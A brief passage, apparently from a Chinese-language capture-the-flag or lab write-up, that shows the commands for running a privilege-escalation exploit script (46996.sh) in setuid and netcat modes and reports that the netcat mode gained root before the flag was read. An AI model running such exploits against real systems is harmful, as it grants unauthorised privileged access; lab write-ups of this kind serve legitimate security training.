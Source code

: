该脚本两种用法，可以通过查看脚本进行查看

```shell
bash 46996.sh -m setuid
bash 46996.sh -m netcat
```

![](./pic-8/33.jpg)

最终经过测试，只有一种方式可以提权成功

```shell
chmod +x 46996.sh
./46996.sh -m netcat
```

![](./pic-8/34.jpg)

查看最终`flag`
